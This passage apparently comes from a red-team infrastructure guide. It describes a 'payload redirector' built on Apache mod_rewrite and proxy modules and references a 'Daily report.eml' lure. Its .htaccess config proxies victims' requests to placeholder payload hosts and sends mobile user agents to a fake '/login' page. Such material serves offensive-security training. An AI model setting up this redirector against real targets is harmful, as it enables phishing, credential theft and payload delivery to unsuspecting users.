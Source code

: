 ![](../../.gitbook/assets/screenshot-from-2019-01-29-22-03-50.png)

{% file src="../../.gitbook/assets/daily-report.eml" caption="Daily report.eml" %}

### Payload Redirector

Payload redirector server is built on apache2 `mod_rewrite` and `proxy` modules. `Mod_rewrite` module allows us to write fine-grained URL rewriting rules and proxy victim's HTTP requests to appropriate payloads as the operator deems appropriate.

#### .htaccess

Below is an .htaccess file that instructs apache, or to be precise `mod_rewrite` module, on when, where and how \(i.e proxy or redirect\) to rewrite incoming HTTP requests:

{% code-tabs %}
{% code-tabs-item title=".htaccess" %}
```typescript
RewriteEngine On
RewriteCond %{HTTP_USER_AGENT} "android|blackberry|googlebot-mobile|iemobile|ipad|iphone|ipod|opera mobile|palmos|webos" [NC]
RewriteRule ^.*$ http://payloadURLForMobiles/login [P]
RewriteRule ^.*$ http://payloadURLForOtherClients/%{REQUEST_URI} [P]
```
{% endcode-tabs-item %}
{% endcode-tabs %}
